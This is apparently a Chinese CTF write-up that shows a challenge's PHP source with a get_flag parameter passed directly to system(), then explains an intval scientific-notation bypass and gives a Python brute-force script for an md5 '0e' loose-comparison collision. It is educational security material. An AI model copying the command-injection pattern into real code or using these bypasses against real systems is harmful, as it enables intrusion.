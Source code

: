 ```php
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

首先是 intval 的绕过, 这次的绕过有点意思

因为 intval 对科学计数法会截断处理, 例如 `123e456` 会变成 123 (PHP 5)

但是运算的时候, 科学计数法会先转换为数字参与运算, 之后再被 intval

```php
intval('123e1'); // 123
intval('123e1' + 1); // 1230 + 1 = 1231
intval('123e4' + 1); // 1230000 + 1 = 1230001
```

传入 `num=2019e1` 就能绕过了

然后是 md5 的碰撞, 一开始还以为是要找一个两次加密都是 0e 开头的值, 后来才发现并不是那么简单, 0e 后面必须全是数字才行

```python
from hashlib import md5

i = 0

while True:
    a = '0e' + str(i)
    m = md5(a.encode()).hexdigest()
    print(i)
    if m[:2] == '0e' and m[2:].isdigit():
        print('OK!!!!!!!!!1',a)
        break
    i += 1
```
